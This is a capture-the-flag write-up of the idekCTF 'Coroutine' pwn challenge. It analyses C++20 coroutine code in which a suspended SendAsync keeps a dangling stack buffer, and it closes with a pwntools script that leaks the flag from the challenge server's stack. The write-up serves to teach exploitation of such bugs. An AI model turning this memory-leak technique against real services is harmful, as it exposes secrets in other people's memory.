 # PWN/Coroutine

## Description

C++20 introduced coroutines, can they be used safely?
`nc coroutine.chal.idek.team 1337`


## Coroutine
This challenge is on C++ coroutines that are introduced in C++ 20. I suggest to read up on the [documentation](https://en.cppreference.com/w/cpp/language/coroutines) and get familiarize with coroutines before reading further.

In any case, here are the important points:
1. Coroutines are function that can be suspended and resume later.
2. Coroutines are stackless, obviously? cause the stack frame will be erase by other functions.
3. Information about the state of the coroutine is stored in a coroutine handler. I.E. local variables, parameters. Heap allocated local variables wtf -.-.
4. Coroutines are functions that contains the co_await, co_yield and co_return expression or implements `co_await` operator.
5. If we look at the disassembly of the compiled binary, any coroutine will have 3 functions under the same function symbol, which I am guessing is for `await_ready`, `await_resume` and `await_suspend` respectively.
6. Coroutines differ from threads: a program with coroutines execute sequentially and support multiple concurrent functions (by suspending and resuming coroutine functions), while a program spawning threads executes multiple parallel threads. In other words, a program with coroutines schedule its own execution of coroutines.

## Code analysis
Thankfully, source code is given. I will cover only the important functions, so lets drive right into it.

### proxy.py (client)

`proxy.py` interacts with the main binary (server). This is our client script. The functionaility is simple:

1. Connects to the binary 
2. Set receive buffer size for client
3. Set send buffer size for client
4. Send data to server
5. Receive data from server


### main (Server)

![image](https://user-images.githubusercontent.com/24536991/212623718-11bfd200-9eac-41ef-8867-2fd8eaea41ca.png)

The main function is responsible for setting up everything. It first creates the `io_context` struct on the stack then pass the `io_context` to `server` function.

### io_context

![image](https://user-images.githubusercontent.com/24536991/212623823-807666e7-9e8e-487f-ac7c-57b9e4f14e87.png)

In the `io_context` struct, there are 2 `vectors` (`reads_` and `writes_`) which holds our suspended coroutines. 

![image](https://user-images.githubusercontent.com/24536991/212624211-8f25227d-a8b6-42bc-8441-45f5988105a0.png)

In the `run_until_done` function, it calls `load_flag`, which loads the flag into a new stack frame, then loops through `reads_` and `writes_` that are ready for IO and resume each coroutine.

It also contains some helper functions such as `add_write`, `add_read` and `cancel` to help modify the `reads_` and `writes_` coroutine vector. `io_context` is the 'scheduler' for the program.

### client_loop
In the `server` function, it initialize the sockets for the connection and listens for connections. It then calls `client_loop`, which is the main part of this challenge. 

![image](https://user-images.githubusercontent.com/24536991/212624568-6adccd8f-d96f-4fe4-8bd9-4a53c1c0d96d.png)

Here we can see that it calls `RecvAsync` to receive input from us then calls `SendAllAsyncNewline` to echo it back to us. Hmmmm, why is the way receive and send being called differently? 

### RecvAsync & SendAsync
Lets take a look at the `RecvAsync` class first. 

![image](https://user-images.githubusercontent.com/24536991/212624774-90ed7760-4d11-4486-85f9-165c61dd2d59.png)

The constructor of `RecvAsync` declared a co_await operator, which will make it a coroutine. Here we see 3 functions (`await_ready`, `await_suspend`, `await_resume`). `await_ready` is the first function to be called when co_await `RecvAsync` is called. If `await_ready` returns false, it will call `await_suspend`, else it will call `await_resume`. `await_resume` is also called when the coroutine is resumed externally, by `io_context` for example. 

`await_ready` tries to recv from the socket, if successful, it will return true, else (no data have been entered through the proxy) it returns false and calls `await_suspend` which will store the coroutine handler to `io_context` (which then resumes the coroutine via `run_until_done`). In the challenge, `await_suspend` will always be called since it is very likely for the `recv` at `await_ready` to return -1 (it is unlikely for proxy.py to win the race since we are from a remote connection).

However, the same cannot be said for `SendAsync`. `SendAsync` has roughly the same code as `RecvAsync`, just switching `recv` to `send`. Here, `await_suspend` in `SendAsync` is unlikely to be called since `send` is likely to be successful, unless ....., `proxy.py`'s receive buffer is full, which we have control over.

### SendAllAsyncNewline & SendAllAsync

![image](https://user-images.githubusercontent.com/24536991/212625343-137feb11-810a-4b7b-becc-6dbd2beaec64.png)

Note that `SendAsync` is being called differently from `client_loop`. It first calls `SendAllAsyncNewline` which does not seems like a coroutine (see point 4 above), but it calls `SendAllAsync` which is a coroutine. It also allocates a `buffer2` which is on the stack, copy the content from `RecvAsync` to `buffer2`, and pass `buffer2` to `SendAllAsync` then to `SendAsync`. `buffer2` becomes invalid once `SendAllAsyncNewline` finish execution.  

What this means is that, `SendAsync` sends data from the stack and `RecvAsync` recv data to the heap (which is then copy to the stack in `SendAllAsyncNewLine`. Lets verify this in a debugger.

address starts with 0x7f -> stack, address starts with 0x56 -> heap

#### Register Content at `RecvAsync` `await_ready`. RSI holds the address of the buffer.

![recvasync](https://user-images.githubusercontent.com/24536991/212626020-3dd3862f-45de-4d2b-a7dd-e4c293c1cb3c.png)


#### Register Content at `SendAllAsyncNewline`. RCX holds the address of the buffer.

![sendallasyncline](https://user-images.githubusercontent.com/24536991/212626299-9fbf0762-5939-4507-bd7e-5310f1435a98.png)


#### Register Content at `SendAsync` `await_ready`. RSI holds the address of the buffer.

![sendasync](https://user-images.githubusercontent.com/24536991/212626320-64bbdc7c-d196-45b5-ae01-c6d21926f848.png)



On top of this, since `SendAllAsync` is called not as a coroutine in `SendAllAsyncNewline`, `SendAllAsyncNewline` ends up calling the `await_ready` function of `SendAllAsync`. This means `SendAllAsyncNewLine` could return to `client_loop` before the `send` was completed, through suspending `SendAsync`. This allows the next `RecvAsync` to be processed before the previous `send` finishes, and multiple send could be on hold at the same time if the `proxy.py` receive buffer is full. In addition, the buffer for `SendAsync` becomes invalid since `SendAllAsyncNewline` would have finished execution.  

### Exploit

Now it become obvious, since data is sent from the stack, which is always at the same address, there is a possibility of data overwriting. We can make use of `RecvAsync` to set the buffer size of the current `SendAsync` (by sending a N length string from `proxy.py`), and make `SendAsync` suspend so we can call `RecvAsync` again. We repeat this again, to queue at least 2 `SendAsync` into the `writes_` vector in the `io_context`, there after we drain the `writes_` vector twice (by receiving data from `proxy.py`, thereby making send free again), the first time to print garbage since `RecvAsync` would have cleared the flag in the stack, the second time to call `load_flag`, to load the flag into the stack and print out the flag (which coincides with `buffer2` in send `SendAllAsyncNewline`).

## Exploit Script

```
from pwn import *
import time
#context.log_level = 'debug'
p = remote("coroutine.chal.idek.team", 1337)

def conn():
    p.recvuntil(b"> ")
    p.sendline(b"1")

def set_rcv(size):
    p.recvuntil(b"> ")
    p.sendline(b"2")
    p.recvuntil(b"> ")
    p.sendline(str(size).encode('utf-8'))

def send_str(string):
    p.recvuntil(b"> ")
    p.sendline(b"4")
    p.recvuntil(b"> ")
    p.sendline(string)

def recv(size):
    #p.recvuntil(b"> ")
    p.sendline(b"5")
    #p.recvuntil(b"> ")
    p.sendline(str(size).encode('utf-8'))

set_rcv(8)
conn()

for i in range(8):
    send_str(b"A" * 512)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
p.interactive()

```
